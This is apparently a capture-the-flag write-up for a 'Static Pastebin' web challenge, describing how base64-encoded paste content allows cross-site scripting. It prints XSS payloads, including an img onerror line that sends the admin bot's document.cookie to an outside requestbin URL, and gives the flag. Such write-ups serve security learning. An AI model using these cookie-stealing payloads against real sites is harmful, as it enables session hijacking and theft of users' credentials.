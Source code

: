 # Static Pastebin

So first things first, create a pastebin. When you go to the display, you'll see a url like https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPXggb25lcnJvcj0iZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cueW91dHViZS5jb20vd2F0Y2g/dj11YjgyWGIxQzhvcyciPg==

That looks kinda like base64, and if you base64 decode the thing after https://static-pastebin.2020.redpwnc.tf/paste/# you'll find it decodes to the content of the pastebin! This allows us to easily create pastebin messages.

There's also an admin bot submit form, where we can submit a url, and the admin bot will visit it. 

Rak found that the xss `><img src='' onerror="javascript code">` worked. 

First, we can try a simple redirect. `><img src='' onerror="document.location='requestbinurl'">`. I set up a requestbin for this purpose. Remember: we base64 encode the payload, and append it to the major part of the url.

https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPScnIG9uZXJyb3I9J2RvY3VtZW50LmxvY2F0aW9uPSJodHRwOi8vcmVxdWVzdGJpbi5uZXQvci8xbGZyZnlpMSInPg==, as a sample, works, sending a request to our requestbin. Let's exfiltrate some information. We can use GET parameters to exfiltrate data.

`><img src='' onerror='document.location="http://requestbin.net/r/1lfrfyi1?thing=" + document.cookie'>`

This would redirect the admin to our requestbin, sending the cookies as the "thing" parameter. Base64 encoding and submitting this as a url, a request on the requestbin pops up with the parameters ?thing=flag=flag{54n1t1z4t10n_k1nd4_h4rd}, giving us the flag, 

#### flag{54n1t1z4t10n_k1nd4_h4rd}
